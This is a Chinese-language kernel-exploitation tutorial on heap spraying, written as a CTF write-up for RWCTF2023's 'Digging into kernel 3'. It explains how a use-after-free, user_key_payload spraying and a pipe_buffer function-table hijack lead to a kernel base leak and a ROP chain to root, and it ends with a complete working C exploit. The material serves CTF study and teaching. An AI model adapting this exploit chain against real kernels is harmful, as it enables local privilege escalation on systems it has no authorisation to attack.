

# Heap Spray

**堆噴射**（heap spraying）指的是一種輔助攻擊手法：「**通過大量分配相同的結構體來達成某種特定的內存佈局**，從而幫助攻擊者完成後續的利用過程」，常見於如下場景：

- 你有一個 UAF，但是**你無法通過少量內存分配拿到該結構體**（例如該 object 不屬於當前 freelist 且釋放後會回到 node 上，或是像 `add_key()` 那樣會被一直卡在第一個臨時結構體上），這時你可以**通過堆噴射來確保拿到該 object**。
- 你有一個堆溢出讀/寫，但是**堆佈局對你而言是不可知的**（比如說開啓了 `SLAB_FREELIST_RANDOM`（默認開啓）），你可以**預先噴射大量特定結構體，從而保證對其中某個結構體的溢出**。
- ......

作爲一種輔助的攻擊手法，堆噴射可以被應用在多種場景下。

## 例題：RWCTF2023體驗賽 - Digging into kernel 3

> 本篇爲了介紹堆噴射這一手法，同時爲了使用更多不同的結構體，**筆者會用比較複雜的思路去解題**。

### 題目分析

按慣例查看啓動腳本，發現開啓了 SMEP、SMAP、KASLR、KPTI：

```bash
#!/bin/sh

qemu-system-x86_64 \
	-m 128M \
	-nographic \
	-kernel ./bzImage \
	-initrd ./rootfs.img \
	-enable-kvm \
	-cpu kvm64,+smap,+smep \
	-monitor /dev/null \
	-append 'console=ttyS0 kaslr kpti=1 quiet oops=panic panic=1 init=/init' \
	-no-reboot \
	-snapshot \
	-s
```

文件系統裏給了一個 `rwctf.ko` ，拖入 IDA 進行分析，發現只定義了一個 ioctl，提供了兩個功能：

- 0xDEADBEEF：分配一個**任意大小**的 object 並能寫入數據，分配 flag 爲 `__GFP_ZERO | GFP_KERNEL`，不過我們只能同時有兩個 object。
- 0xC0DECAFE：釋放一個之前分配的 object ，**存在 UAF**。



我們需要傳入如下結構體：

```c
struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};
```

經過筆者測試，出題人**手動關閉瞭如下默認開啓的保護**（出題人爲了降低題目難度，可能關的更多，筆者只測了這幾個）：

- 關閉了 `CONFIG_MEMCG_KMEM`，這使得`GFP_KERNEL` 與 `GFP_KERNEL_ACCOUNT` 會從同樣的 `kmalloc-xx` 中進行分配
- 關閉了 `CONFIG_RANDOMIZE_KSTACK_OFFSET`，這使得固定函數調用到內核棧底的偏移值是不變的
- 關閉了 `SLAB_FREELIST_HARDENED`，這使得 freelist 幾乎沒有任何保護，我們可以輕易完成任意地址分配 + 任意地址讀寫

不過在筆者看來 _出題人其實沒有必要自降難度_ ，下面筆者將給出在這三種保護開啓時也能完成利用的方法 ：）

### 漏洞利用

既然題目中已經直接白給出了一個無限制的 UAF，那麼利用方式就是多種多樣的了，這裏筆者選擇使用 [user\_key\_payload](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/#0x0A-%E5%86%85%E6%A0%B8%E5%AF%86%E9%92%A5%E7%AE%A1%E7%90%86%EF%BC%9A%E5%86%85%E6%A0%B8%E4%B8%AD%E7%9A%84%E2%80%9C%E8%8F%9C%E5%8D%95%E5%A0%86%E2%80%9D) 來完成利用。

#### Step.I - 堆噴 user\_key\_payload 越界讀泄露內核基地址

在內核當中存在一個用於密鑰管理的子系統，內核提供了 `add_key()` 系統調用進行密鑰的創建，並提供了 `keyctl()` 系統調用進行密鑰的讀取、更新、銷燬等功能：

```c
        #include <sys/types.h>
        #include <keyutils.h>

        key_serial_t add_key(const char *type, const char *description,
                                    const void *payload, size_t plen,
                                    key_serial_t keyring);
//...
       #include <asm/unistd.h>
       #include <linux/keyctl.h>
       #include <unistd.h>

       long syscall(__NR_keyctl, int operation, __kernel_ulong_t arg2,
                    __kernel_ulong_t arg3, __kernel_ulong_t arg4,
                    __kernel_ulong_t arg5);

```

當我們調用 `add_key()` 分配一個帶有 `description` 字符串的、類型爲 `"user"` 的、長度爲 `plen` 的內容爲 `payload` 的密鑰時，內核會經歷如下過程：

- 首先會在內核空間中分配 obj 1 與 obj2，分配 flag 爲 `GFP_KERNEL`，用以保存 `description` （字符串，最大大小爲 4096）、`payload` （普通數據，大小無限制）
- 分配 obj3 保存 `description` ，分配 obj4 保存 `payload`，分配 flag 皆爲 `GFP_KERNEL`
- 釋放 obj1 與 obj2，返回密鑰 id

其中 obj4 爲一個 `user_key_payload` 結構體，定義如下：

```c
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};

//...

struct callback_head {
	struct callback_head *next;
	void (*func)(struct callback_head *head);
} __attribute__((aligned(sizeof(void *))));
#define rcu_head callback_head
```

類似於 `msg_msg`，`user_key_payload` 結構體有着一個固定大小的頭部，其餘空間用來存儲來自用戶空間的數據（密鑰內容）。

 `keyctl()` 系統調用爲我們提供了讀取、更新（分配新對象，釋放舊對象）、銷燬密鑰（釋放 payload）的功能，其中讀取的最大長度由 `user_key_payload->datalen`  決定，我們不難想到的是我們可以利用題目提供的 UAF 將`user_key_payload->datalen` 改大，從而完成越界讀。

注意以下兩點：

- 這裏我們的 description 字符串需要和 payload 有着不同的長度，從而簡化利用模型。
- 讀取 key 時的 len 應當**不小於 user\_key\_payload->datalen，否則會讀取失敗**。

但是這裏有一個問題：**add\_key() 會先分配一個臨時的 obj1 拷貝 payload 後再分配一個 obj2 作爲 user\_key\_payload**，若我們先分配一個 obj 並釋放後再調用 add\_key() 則該 obj 不會直接成爲 `user_key_payload` ，而是會在後續的數次分配中都作爲拷貝 payload 的臨時 obj 存在。

**但我們可以通過堆噴將 UAF obj 分配到 user\_key\_payload**，考慮如下流程：

- 利用題目功能構建 UAF object。
- 堆噴射 `user_key_payload` ，UAF obj 作爲拷貝 payload 的臨時 obj 存在。
- `kmem_cache_cpu` 的 slub page 耗光，向 node 請求新的 slub page 分配  `user_key_payload` ，完成後 UAF obj 被釋放並回到 `kmem_cache_node`。
- 繼續堆噴 `user_key_payload` ，`kmem_cache_cpu` 的 slub page 耗光，向 node 請求新的 slub page 分配  `user_key_payload` 。
- UAF obj 所在頁面被取回，UAF obj 被分配爲  `user_key_payload` 。
- 利用題目功能再次釋放 UAF obj，利用題目功能進行堆噴獲取到該 obj，從而覆寫 `user_key_payload` 。

> 注：官方題解中進行地址泄露也是利用類似的做法。
>
> > 不過筆者覺得其實直接利用題目分配 obj1 和 obj2 後全部釋放，之後再在 obj2 上弄 UAF 就行了：) 這裏採用這種做法只是爲了介紹 heap spraying 這一手法。
> >
> > > 筆者將在 Step.II 中使用這種方法。

接下來我們考慮越界讀取什麼數據，這裏我們並不需要分配其他的結構體， `rcu_head->func` **函數指針在 rcu 對象被釋放後纔會被寫入並調用，但調用完並不會將其置爲 NULL**，因此我們可以通過釋放密鑰的方式在內核堆上留下內核函數指針，從而完成內核基址的泄露。

#### Step.II - UAF 泄露可控堆對象地址，篡改 pipe\_buffer 劫持控制流

可以用來控制內核執行流的結構體有很多，但是我們需要考慮如何完整地執行 `commit_creds(prepare_kernel_cred(NULL))` 後再成功返回用戶態，因此我們需要進行棧遷移以佈置較爲完整的 ROP gadget chain。

由於題目開啓了 SMEP、SMAP 保護，因此我們只能在內核空間僞造函數表，同時內核中的大部分結構體的函數表爲靜態指定（例如 `tty->ops` 總是 `ptm（或pty）_unix98_ops`），因此我們還需要知道一個內容可控的內核對象的地址，從而在內核空間中僞造函數表。

這裏筆者選擇管道相關的結構體完成利用；在內核中，管道本質上是創建了一個**虛擬的 inode** 來表示的，對應的就是一個 `pipe_inode_info` 結構體：

```c
struct pipe_inode_info {
	struct mutex mutex;
	wait_queue_head_t rd_wait, wr_wait;
	unsigned int head;
	unsigned int tail;
	unsigned int max_usage;
	unsigned int ring_size;
#ifdef CONFIG_WATCH_QUEUE
	bool note_loss;
#endif
	unsigned int nr_accounted;
	unsigned int readers;
	unsigned int writers;
	unsigned int files;
	unsigned int r_counter;
	unsigned int w_counter;
	struct page *tmp_page;
	struct fasync_struct *fasync_readers;
	struct fasync_struct *fasync_writers;
	struct pipe_buffer *bufs;
	struct user_struct *user;
#ifdef CONFIG_WATCH_QUEUE
	struct watch_queue *watch_queue;
#endif
};
```

同時內核中會分配一個 `pipe_buffer` 結構體數組，每個 `pipe_buffer` 結構體對應一張用以存儲數據的內存頁：

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

`pipe_buf_operations` 爲一張函數表，當我們對管道進行特定操作時內核便會調用該表上對應的函數，例如當我們關閉了管道的兩端時，會觸發 `pipe_buffer->pipe_buffer_operations->release` 這一指針，由此我們便能控制內核執行流，從而完成提權。

```c
struct pipe_buf_operations {
	//...

	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
```

那麼這裏我們可以利用 UAF 使得 `user_key_payload` 與 `pipe_inode_info` 佔據同一個 object， `pipe_inode_info` 剛好會將 `user_key_payload->datalen` 改爲 `0xFFFF` 使得我們能夠繼續讀取數據，從而讀取 `pipe_inode_info`  以泄露出 `pipe_buffer` 的地址。

而  `pipe_buffer` 是動態分配的，因此我們可以利用題目功能預先分配一個對象作爲 `pipe_buffer` 並直接在其上僞造函數表即可。

> 對於筆者來說比較麻煩的倒是找棧遷移的 gadget...好在最後還是成功找到了一些合適的 gadget。

### EXPLOIT

最後的 exp 如下：

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>

/**
 * Utilities
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * Syscall keyctl() operator
 */

#define KEY_SPEC_PROCESS_KEYRING -2 /* - key ID for process-specific keyring */
#define KEYCTL_UPDATE           2   /* update a key */
#define KEYCTL_REVOKE           3   /* revoke a key */
#define KEYCTL_UNLINK           9   /* unlink a key from a keyring */
#define KEYCTL_READ             11  /* read a key or keyring's contents */

int key_alloc(char *description, void *payload, size_t plen)
{
    return syscall(__NR_add_key, "user", description, payload, plen, 
                   KEY_SPEC_PROCESS_KEYRING);
}

int key_update(int keyid, void *payload, size_t plen)
{
    return syscall(__NR_keyctl, KEYCTL_UPDATE, keyid, payload, plen);
}

int key_read(int keyid, void *buffer, size_t buflen)
{
    return syscall(__NR_keyctl, KEYCTL_READ, keyid, buffer, buflen);
}

int key_revoke(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_REVOKE, keyid, 0, 0, 0);
}

int key_unlink(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_UNLINK, keyid, KEY_SPEC_PROCESS_KEYRING);
}

/**
 * Challenge interactiver
 */

/* kmalloc-192 has only 21 objects on a slub, we don't need to spray to many */
#define KEY_SPRAY_NUM 40

#define PIPE_INODE_INFO_SZ 192
#define PIPE_BUFFER_SZ 1024

#define USER_FREE_PAYLOAD_RCU 0xffffffff813d8210
#define PREPARE_KERNEL_CRED 0xffffffff81096110
#define COMMIT_CREDS 0xffffffff81095c30
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ed0

#define PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250c9d
#define POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250ca4
#define POP_RDI_RET 0xffffffff8106ab4d
#define XCHG_RDI_RAX_DEC_STH_RET 0xffffffff81adfc70

int dev_fd;

struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};

/**
 * @brief allocate an object bby kmalloc(size, __GFP_ZERO | GFP_KERNEL )
 * __GFP_RECLAIM = __GFP_KSWAPD_RECLAIM | __GFP_DIRECT_RECLAIM 
 * GFP_KERNEL = __GFP_RECLAIM | __GFP_IO | __GFP_FS
 * 
 * @param idx 
 * @param size 
 * @param buf 
 */
void alloc(uint32_t idx, uint32_t size, void *buf)
{
    struct node n = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xDEADBEEF, &n);
}

void del(uint32_t idx)
{
    struct node n = {
        .idx = idx,
    };

    ioctl(dev_fd, 0xC0DECAFE, &n);
}

/**
 * Exploit stage
 */

int main(int argc, char **argv, char **envp)
{
    size_t *buf, pipe_buffer_addr;
    int key_id[KEY_SPRAY_NUM], victim_key_idx = -1, pipe_key_id;
    char desciption[0x100];
    int pipe_fd[2];
    int retval;

    /* fundamental works */
    bind_core(0);
    save_status();

    buf = malloc(sizeof(size_t) * 0x4000);

    dev_fd = open("/dev/rwctf", O_RDONLY);
    if (dev_fd < 0) {
        err_exit("FAILED to open the /dev/rwctf file!");
    }

    /* construct UAF on user_key_payload */
    puts("[*] construct UAF obj and spray keys...");
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    del(0);

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        snprintf(desciption, 0x100, "%s%d", "arttnba", i);
        key_id[i] = key_alloc(desciption, buf, PIPE_INODE_INFO_SZ - 0x18);
        if (key_id[i] < 0) {
            printf("[x] failed to alloc %d key!\n", i);
            err_exit("FAILED to add_key()!");
        }
    }

    del(0);

    /* corrupt user_key_payload's header */
    puts("[*] corrupting user_key_payload...");

    buf[0] = 0;
    buf[1] = 0;
    buf[2] = 0x2000;

    for (int i = 0; i < (KEY_SPRAY_NUM * 2); i++) {
        alloc(0, PIPE_INODE_INFO_SZ, buf);
    }

    /* check for oob-read and leak kernel base */
    puts("[*] try to make an OOB-read...");

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        if (key_read(key_id[i], buf, 0x4000) > PIPE_INODE_INFO_SZ) {
            printf("[+] found victim key at idx: %d\n", i);
            victim_key_idx = i;
        } else {
            key_revoke(key_id[i]);
        }
    }

    if (victim_key_idx == -1) {
        err_exit("FAILED at corrupt user_key_payload!");
    }

    kernel_offset = -1;
    for (int i = 0; i < 0x2000 / 8; i++) {
        if (buf[i] > kernel_base && (buf[i] & 0xfff) == 0x210) {
            kernel_offset = buf[i] - USER_FREE_PAYLOAD_RCU;
            kernel_base += kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1) {
        err_exit("FAILED to leak kernel addr!");
    }

    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct UAF on pipe_inode_buffer to leak pipe_buffer's addr */
    puts("[*] construct UAF on pipe_inode_info...");

    /* 0->1->..., the 1 will be the payload object */
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    alloc(1, PIPE_INODE_INFO_SZ, buf);
    del(1);
    del(0);

    pipe_key_id = key_alloc("arttnba3pipe", buf, PIPE_INODE_INFO_SZ - 0x18);
    del(1);

    /* this object is for the pipe buffer */
    alloc(0, PIPE_BUFFER_SZ, buf);
    del(0);

    pipe(pipe_fd);

    /* note that the user_key_payload->datalen is 0xFFFF now */
    retval = key_read(pipe_key_id, buf, 0xffff);
    pipe_buffer_addr = buf[16]; /* pipe_inode_info->bufs */
    printf("\033[32m\033[1m[+] Got pipe_buffer: \033[0m0x%lx\n", 
            pipe_buffer_addr);

    /* construct fake pipe_buf_operations */
    memset(buf, 'A', sizeof(buf));

    buf[0] = *(size_t*) "arttnba3";
    buf[1] = *(size_t*) "arttnba3";
    buf[2] = pipe_buffer_addr + 0x18;  /* pipe_buffer->ops */
    /* after release(), we got back here */
    buf[3] = kernel_offset + POP_RBX_POP_RBP_POP_R12_RET;
    /* pipe_buf_operations->release */
    buf[4] = kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET;
    buf[5] = *(size_t*) "arttnba3";
    buf[6] = *(size_t*) "arttnba3";
    buf[7] = kernel_offset + POP_RDI_RET;
    buf[8] = (size_t) NULL;
    buf[9] = kernel_offset + PREPARE_KERNEL_CRED;
    buf[10] = kernel_offset + XCHG_RDI_RAX_DEC_STH_RET;
    buf[11] = kernel_offset + COMMIT_CREDS;
    buf[12] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31;
    buf[13] = *(size_t*) "arttnba3";
    buf[14] = *(size_t*) "arttnba3";
    buf[15] = (size_t) get_root_shell;
    buf[16] = user_cs;
    buf[17] = user_rflags;
    buf[18] = user_sp + 8; /* system() wants it : ( */
    buf[19] = user_ss;

    del(0);
    alloc(0, PIPE_BUFFER_SZ, buf);

    /* trigger pipe_buf_operations->release */
    puts("[*] trigerring pipe_buf_operations->release()...");

    close(pipe_fd[1]);
    close(pipe_fd[0]);

    return 0;
}

```

## REFERENCE

[【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)

[【PWN.0x02】Linux Kernel Pwn II：常用結構體集合](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/)